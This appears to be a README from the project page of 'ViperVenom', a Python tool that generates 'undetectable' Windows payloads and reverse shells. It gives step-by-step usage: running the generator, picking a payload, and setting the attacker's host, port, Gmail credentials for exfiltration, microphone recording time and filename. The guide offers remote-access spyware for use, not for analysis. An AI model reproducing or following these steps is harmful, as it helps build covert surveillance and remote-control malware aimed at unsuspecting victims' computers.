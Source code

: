 ##### ViperVenom's Client Requirements: 
```
$ pip3 install -r client_requirements.txt
```
To connect a computer to the listener(you, most likely) you need to install a few Python extensions, for now. The client must have the latest Python
installation, and the Python extensions used in the client file, but you can use a Python compiler to create
an executable.

# Generating Payload (Updated 04/09/2021)

In this section, you will be able to generate your own ViperVenom Python payload, convert it to an encoded shellcode payload, or an executable.

First, run the tool
```
python3 vipervenom.py
```
You should be brought to the starting page, to show the list, type "show list" or "list", to see the available options.
```
Landing/ViperVenom/ > list

    Listeners             Description
    ---------             -----------
    1                      ViperVenom Payload Listener
    

    Generators            Description
    ----------            -----------
    2                      ViperVenom Payload Generator
```
To generate a payload, we would have to use the second option,
```
Landing/ViperVenom/ > use 2
/ViperVenom/ > 

```
To see the available payloads to generate, "show payloads" will be a helpful command.
```
/ViperVenom/ > show payloads

            Payloads                                    Description
            --------                                    -----------
            1) generator/vipervenom/tcp/payload         Undetectable ViperVenom Windows Payload

            2) generator/vipervenom/tcp/revshell        Undetectable ViperVenom Windows Reverse Shell
```
To use this generator, type "use" with its name, just like this
```
/ViperVenom/ > use generator/vipervenom/tcp/payload
(Generator) Windows/ViperVenom/TCP/Payload > 
```
Now, you have to set everything yourself, host IP address, port to listen to, Gmail address, Gmail password (don't worry, we do not log anything you do in this software. At all),
microphone record seconds, and filename, here's a quick walkthrough
```
(Generator) Windows/ViperVenom/TCP/Payload > set host YOURIP
(Generator) Windows/ViperVenom/TCP/Payload > set port YOURPORT
(Generator) Windows/ViperVenom/TCP/Payload > set gmailaddr YOURGMAILADDR@gmail.com
(Generator) Windows/ViperVenom/TCP/Payload > set gmailpass YOURPASSWORD
(Generator) Windows/ViperVenom/TCP/Payload > set micrecord SECONDS
(Generator) Windows/ViperVenom/TCP/Payload > set filename YOURFILENAME.py
(Generator) Windows/ViperVenom/TCP/Payload > set sleep SECONDS
```